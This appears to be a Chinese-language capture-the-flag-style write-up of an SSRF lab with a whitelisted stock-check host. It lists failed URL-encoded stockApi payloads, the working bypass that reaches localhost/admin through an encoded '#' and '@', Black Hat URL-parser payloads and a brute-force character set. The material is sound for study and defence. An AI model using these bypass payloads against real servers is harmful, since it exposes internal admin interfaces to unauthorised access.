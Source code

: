 
失败：
```
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%25%35%63@stock.weliketoshop.net.127.0.0.9.nip.io%2Fadmin
```
响应400：
"External stock check host must be stock.weliketoshop.net"


把四个技巧都结合起来了，
```
stockApi=http%3A%2F%2Fstock.weliketoshop.net@stock.weliketoshop.net.127.0.0.1.nip.io%25%32%33stock.weliketoshop.net%2F%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```
依然不对，
```
stockApi=http%3A%2F%2Fstock.weliketoshop.net%25%34%30stock.weliketoshop.net.127.0.0.1.nip.io%25%32%33stock.weliketoshop.net%2F%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```
还是不对，


后来看writeup才知道姿势错了，思路不对，
我的思路是
```
http://stock.weliketoshop.net@localhost
```
实际上的思路是：
```
http://localhost#stock.weliketoshop.net
```
最终的payload是：
```
http%3A%2F%2Flocalhost%25%32%33@stock.weliketoshop.net/admin
```
解码之后的样子：
```
http://localhost#@stock.weliketoshop.net/admin
```

另外一个方法，
通过观察：https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
的payload：
```
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```
发现主要是
```
\
:
&
#
@
```
以及他们的url编码形式的排列组合。
于是使用以下字符进行爆破：
```
%25
%40
%23
%5c
%3a
%
@
#
```